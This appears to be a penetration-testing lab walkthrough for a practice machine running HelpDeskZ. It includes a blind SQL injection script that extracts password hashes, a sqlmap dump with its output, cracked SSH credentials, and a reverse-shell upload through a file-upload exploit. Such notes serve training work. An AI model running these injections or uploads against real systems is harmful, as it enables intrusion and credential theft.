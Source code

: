 keyspace = 'abcdef0123456789'
for i in range(0,41):
    for c in keyspace:
        inject = f"and substr((select password from staff limit 0,1),{i},1) = '{c}'-- -"
        if blindInject(inject):
#            print(f"SUCCESS: {c}")
            print(c, end='', flush=True)

```
	- SHA1 hash:Decrypted password
		-  d318f44739dced66793b1a603028133a76ae680e:Welcome1
	- sshinto machine, guess username
		- ssh help@10.10.10.121
			- enter password Welcome1
- for email, adjust script (may not work, had to fix above code in python2
	```bash
chars = list(string.ascii_lowercase) + list(string.digits) + ['@', '_', '.']
```
	- **NOTE : **
		- used sqlmap (NOT ALLOWED IN OSCP)
			```bash
sqlmap -r sqlticket2 --batch --level 5 --risk 3 -p param[] -D support -T users --dump
```
		- Main output **DOESNT FIND THE PWD WE ARE LOOKING FOR**:
			```bash
+----+-----------------------+----------+----------+------------------------------------------+------------------+------------+
| id | email                 | status   | fullname | password                                 | timezone         | salutation |
+----+-----------------------+----------+----------+------------------------------------------+------------------+------------+
| 1  | helpme@helpme.com     | 1        | helpme   | c3b3bd1eb5142e29adb0044b16ee4d402d06f9ca | Indian/Christmas | 0          |
| 2  | lolololol@yopmail.com | 1        | xcvxv    | ec09fa0d0ba74336ea7fe392869adb198242f15a | NULL             | 0          |
| 3  | zef@gmail.com         | 1        | efef     | 870fc8c6fffd0c9d0579aab96268d9e4b7595222 | NULL             | 0          |
| 4  | test@example.com      | 1        | test     | 589c9a0be20cc3dbe19586b597c87ee4344c1739 | NULL             | 0          |
+----+-----------------------+----------+----------+------------------------------------------+------------------+------------+
```
- crack pwd of sha1
	- Welcome1
- need to guess username :help
	- ssh into machine with creds found
## Alternate easier method
- searchsploit also reveals a file upload vulnerability so we can upload reverse shell.
- in help.htb/support we generate a ticket
	- in the ticket we attach a reverse shell and have a listener running
	- before uploading, we should also know the location the upload goes to.
		- in the github helpdeskz v1.0.2 repo we see an uploads folder and a tickets folder inside it.
		- we check via the url if it returns any page and it redirects to help.htb so we know it exists.
	- we save the exploit in our folder via
		```bash
searchsploit -m /path/to/exploit
```
	- we then upload the file.
		- we get a response file not found but it should be uploaded regardless
	- we then pass our exploit command
		```bash
python2 exploit.py http://help.htb/support/uploads/tickets/ Reverseshell.php
```